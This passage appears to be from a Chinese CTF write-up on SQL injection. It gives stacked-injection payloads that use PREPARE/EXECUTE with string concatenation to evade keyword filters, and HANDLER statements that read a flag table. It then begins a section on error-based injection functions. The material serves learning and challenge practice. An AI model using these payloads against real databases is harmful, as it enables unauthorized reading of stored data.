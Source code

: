 然后用万能密码即可显示出表里的所有数据，自然也包括flag了。

## 预处理

当然除了这种方法还可以使用**预处理**解决，如：

```
1'; Set @a=concat("sele","ct flag from `1919810931114514`");prepare h from @a;execute h;
```

预处理基于三个SQL语句：

```
PREPARE stmt_name FROM preparable_stmt;
EXECUTE stmt_name [USING @var_name [, @var_name] ...];
{DEALLOCATE | DROP} PREPARE stmt_name;
```

PREPARE语句用于预备一个语句，并赋予它名称stmt_name，借此在以后引用该语句。语句名称对案例不敏感。preparable_stmt可以是一个文字字符串，也可以是一个包含了语句文本的用户变量。该文本必须展现一个单一的SQL语句，而不是多个语句。使用本语句，‘?’字符可以被用于制作参数，以指示当您执行查询时，数据值在哪里与查询结合在一起。‘?’字符不应加引号，即使您想要把它们与字符串值结合在一起，也不要加引号。参数制作符只能被用于数据值应该出现的地方，不用于SQL关键词和标识符等。

当然我们只用掌握它的运用即可，即：

```
Set @a='语句';prepare h from @a;execute h;
```

## 利用handler函数

不过这个题还可以拓展一下，那就是如果这道题增加了过滤（ select，set，prepare，rename）怎么办呢？这时我们可以利用handler函数，他可以在不知道字段名的前提下查询出字段的值

```
1';handler `1919810931114514` open as aaa;handler aaa read first;
```

其中的aaa为我们自己定义的名字，first为读第一行数据，与他并列的还有next（读取下一行)。

使用handler 读取数据 这个handler只能一行一行的读取使用read first、next、prev、last等函数去读取，用法为：

```
1.打开表
handler table_name open
2.读取第一行
handler table_name read first或者(next)
3.关闭表
handler table_name close
```

所以其实对于这道题也可以不取别名直接使用：

```
';handler `1919810931114514` open;handler `1919810931114514` read next;--+
```

# 报错注入

通过**特殊函数**的错误使用使其参数被页面输出，有点像SSTI。当然，这种注入可以成功的前提是服务器开启报错信息返回，也就是发生错误时返回报错信息，常见的利用函数有常见的利用函数有：`exp()、floor()+rand()、updatexml()、extractvalue()`等，参考[SQL 注入总结](https://xz.aliyun.com/t/2869#toc-25)：
